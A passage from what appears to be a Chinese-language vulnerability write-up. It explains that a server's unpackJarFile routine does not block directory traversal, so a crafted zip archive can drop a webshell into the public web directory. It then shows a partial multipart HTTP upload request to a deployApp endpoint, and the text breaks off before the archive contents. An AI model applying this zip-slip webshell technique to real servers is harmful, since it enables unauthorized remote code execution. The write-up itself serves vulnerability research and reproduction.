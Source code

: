 ```java
        if (out != null) {
            out.close();
        }
    }

}
```

但是`exploadDir`无法直接访问，而且在`unpackJarFile`方法中未对目录穿越做过了，所以可以构造可以目录穿越的压缩包，将webshell解压到`domains/applications/default/public_html/`下。

### 总结

![2](assets/1705902966-e0ed6b450d8c6d092f1b6e3d75c13e15.jpg)

## 0x02 构造payload并复现

于是构造payload为

```java
POST /xxxxx/xxxx/application/deployApp HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryNotThoE1rFKMKxp5
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 1499

------WebKitFormBoundaryNotThoE1rFKMKxp5
Content-Disposition: form-data; name="appName"

12123123
------WebKitFormBoundaryNotThoE1rFKMKxp5
Content-Disposition: form-data; name="deployInServer"

false
------WebKitFormBoundaryNotThoE1rFKMKxp5
Content-Disposition: form-data; name="clientFile"; filename="test2.zip"
```
